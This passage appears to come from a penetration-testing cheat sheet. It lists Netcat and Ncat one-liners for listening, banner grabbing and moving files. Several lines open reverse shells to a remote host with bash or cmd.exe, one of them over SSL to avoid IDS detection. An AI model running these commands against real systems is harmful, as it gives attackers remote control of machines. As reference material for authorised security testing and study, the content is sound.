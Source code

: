     -   Decode Hexidecimal Encoded Values  
        `echo -n "46 4c 34 36 5f 33 3a 32 396472796 63637756 8656874" | xxd -r -ps`

-   Netcat - Read and write TCP and UDP Packets

    -   Download Netcat for Windows (handy for creating reverse shells and transfering files on windows systems):
        [https://joncraton.org/blog/46/netcat-for-windows/](https://joncraton.org/blog/46/netcat-for-windows/)

    -   Connect to a POP3 mail server  
        `nc -nv $ip 110`

    -   Listen on TCP/UDP port  
        `nc -nlvp 4444`

    -   Connect to a netcat port  
        `nc -nv $ip 4444`

    -   Send a file using netcat  
        `nc -nv $ip 4444 < /usr/share/windows-binaries/wget.exe`

    -   Receive a file using netcat  
        `nc -nlvp 4444 > incoming.exe`
        
    -   Some OSs (OpenBSD) will use nc.traditional rather than nc so watch out for that...
         
            whereis nc
            nc: /bin/nc.traditional /usr/share/man/man1/nc.1.gz

            /bin/nc.traditional -e /bin/bash 1.2.3.4 4444


    -   Create a reverse shell with Ncat using cmd.exe on Windows  
        `nc.exe -nlvp 4444 -e cmd.exe`
        
        or
        
        `nc.exe -nv <Remote IP> <Remote Port> -e cmd.exe`

    -   Create a reverse shell with Ncat using bash on Linux  
        `nc -nv $ip 4444 -e /bin/bash`
        
    -   Netcat for Banner Grabbing:
    
        `echo "" | nc -nv -w1 <IP Address> <Ports>`

-   Ncat - Netcat for Nmap project which provides more security avoid
    IDS

    -   Reverse shell from windows using cmd.exe using ssl  
        `ncat --exec cmd.exe --allow $ip -vnl 4444 --ssl`

    -   Listen on port 4444 using ssl  
        `ncat -v $ip 4444 --ssl`

-   Wireshark
    -   Show only SMTP (port 25) and ICMP traffic:
    
        `tcp.port eq 25 or icmp`
        